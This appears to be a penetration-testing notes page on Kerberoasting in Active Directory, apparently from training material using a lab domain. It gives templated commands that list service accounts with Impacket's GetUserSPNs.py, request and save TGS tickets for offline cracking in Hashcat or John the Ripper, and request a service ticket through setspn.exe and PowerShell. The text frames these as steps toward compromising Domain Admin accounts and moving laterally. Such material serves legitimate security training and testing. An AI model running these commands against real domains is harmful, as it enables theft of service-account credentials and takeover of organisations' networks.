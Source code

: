 ### Kerberoasting with GetUserSPNs.py
`A prerequisite to performing Kerberoasting attacks is either domain user credentials (cleartext or just an NTLM hash if using Impacket), a shell in the context of a domain user, or account such as SYSTEM. Once we have this level of access, we can start. We must also know which host in the domain is a Domain Controller so we can query it.`

We can start by just gathering a listing of SPNs in the domain. To do this, we will need a set of valid domain credentials and the IP address of a Domain Controller. We can authenticate to the Domain Controller with a cleartext password, NT password hash, or even a Kerberos ticket. For our purposes, we will use a password. Entering the below command will generate a credential prompt and then a nicely formatted listing of all SPN accounts. From the output below, we can see that several accounts are members of the Domain Admins group. If we can retrieve and crack one of these tickets, it could lead to domain compromise. It is always worth investigating the group membership of all accounts because we may find an account with an easy-to-crack ticket that can help us further our goal of moving laterally/vertically in the target domain.

**Listing SPN Accounts with GetUserSPNs.py**
```
$ GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN.FULL>/<USERNAME>
```

We can now pull all TGS tickets for offline processing using the -request flag. The TGS tickets will be output in a format that can be readily provided to Hashcat or John the Ripper for offline password cracking attempts.
**Requesting all TGS Tickets**
```
$ GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN.FULL>/<USERNAME> -request
```

We can also be more targeted and request just the TGS ticket for a specific account. Let's try requesting one for just the sqldev account.
**Requesting a Single TGS ticket**
```
$ GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN.FULL>/<USERNAME> -request-user <DC_USER>
```

**Saving the TGS Ticket to an Output File**
```
$ GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN.FULL>/<USERNAME> -request-user <DC_USER> -outputfile <FILENAME>
```

## Windows
### Kerberoasting - Semi Manual method
#### Enumerating SPNs with setspn.exe
```
> setspn.exe -Q */*
``` 

**Targeting a Single User**
```
> Add-Type -AssemblyName System.IdentityModel
> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
